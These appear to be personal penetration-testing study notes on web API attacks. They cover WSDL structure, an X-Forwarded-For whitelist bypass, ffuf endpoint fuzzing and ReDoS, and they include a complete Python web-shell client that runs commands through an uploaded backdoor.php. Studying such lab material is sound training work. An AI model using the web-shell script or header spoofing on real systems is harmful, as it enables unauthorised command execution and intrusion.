 

### Web Services Description Language (WSDL)

[check here](https://www.tutorialworks.com/wsdl/#:~:text=A%20WSDL%20file%20is%20written%20in%20XML.%20It,to%20send%20a%20request%20to%20a%20web%20service.)

![[Pasted image 20240804173411.png]]

- instruction manual for interacting with a web service.
- defines rules t communicate btw application and web service 
## Structure of a WSDL file

|ELEMENT|WHAT IT DOES|
|---|---|
|`<types>`|Defines the data types (XML elements) that are used by the web service.|
|`<message>`|Defines the messages that can be exchanged with the web service. Each `<message>` contains a `<part>`.|
|`<portType>`|Defines each operation in the web service, and the messages associated with each operation.|
|`<binding>`|Defines exactly how each `operation` will take place over the network (we use SOAP, in the example below).|
|`<service>`|Defines the physical location of the service (e.g. its _endpoint_).|


- bruteforce to find wsdl directory
- blank page brute force for parameters
### Rate Limit Bypass

```php
<?php
$whitelist = array("127.0.0.1", "1.3.3.7");
if(!(in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $whitelist)))
{
    header("HTTP/1.1 401 Unauthorized");
}
else
{
  print("Hello Developer team! As you know, we are working on building a way for users to see website pages in real pages but behind our own Proxies!");
}
```
- set X-FORWARD-HEADER to one in the list of whitelist
- if blacklisted do it accordingly

## ARBITRARY FILE UPLOAD

```shell-session
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
```


```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```


- ==api end points == [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt)

```shell-session
 ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```
# Regular Expression Denial of Service (ReDoS)

- user input processed by regx on server side
- lower input in api lower time taken
- higher input size time taken long

regex to [regex101.com](https://regex101.com/) for an in-depth explanation. Then, submit the above regex to [https://jex.im/regulex/](https://jex.im/regulex/#!flags=&re=%5E(%5Ba-zA-Z0-9_.-%5D) for a visualization



